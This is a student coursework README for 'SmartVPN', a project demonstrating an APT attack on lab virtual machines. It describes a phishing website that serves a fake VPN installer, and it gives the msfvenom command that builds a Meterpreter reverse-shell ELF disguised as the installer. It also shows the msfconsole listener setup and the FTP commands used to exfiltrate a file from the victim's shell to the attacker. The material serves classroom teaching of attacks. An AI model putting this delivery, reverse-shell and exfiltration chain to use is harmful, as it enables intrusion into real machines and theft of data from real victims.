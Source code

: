 ## SmartVPN

Link to Github Repo - https://github.com/Pranauv-Kumar1803/ICS

This is a repository containing code for demonstration of APT attacks for Introduction to Cyber Security Coursework @ IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

Note: This is only for educational purposes!


## Project Contributors

- Pranauv Kumar - S20210010186
- Rahul Agarwal - S20210010187
- Sai Swetha M - S20210010143
- Anurag Yadav - S20210010026

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firstly, Clone the project to have the Fake VPN Website ready for the victim to download the malicious VPN setup file. 

```bash
git clone https://github.com/Pranauv-Kumar1803/ICS.git
```

Go to the project directory

```bash
cd ICS
```

Install dependencies in both client and server folder

```bash
npm install
```

Start the server

```bash
npm start
```

Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole (Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for Ubuntu.

From here, we access the SmartVPN website that is hosted on "192.168.100.4:8000" and download the vpn setup from the website and we run it!

Boom! Now, we have a hit in Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect to the attacker's computer from the victim's shell in the msfconsole to exfiltrate some data (some random dummy.pdf files from victim's computer)

To do this, type the following in the shell spawned in the Kali Linux's Msfconsole,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
```

"put" command of FTP, sees the "dummy.pdf" in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Hence, we are done with the whole demonstration of APT!
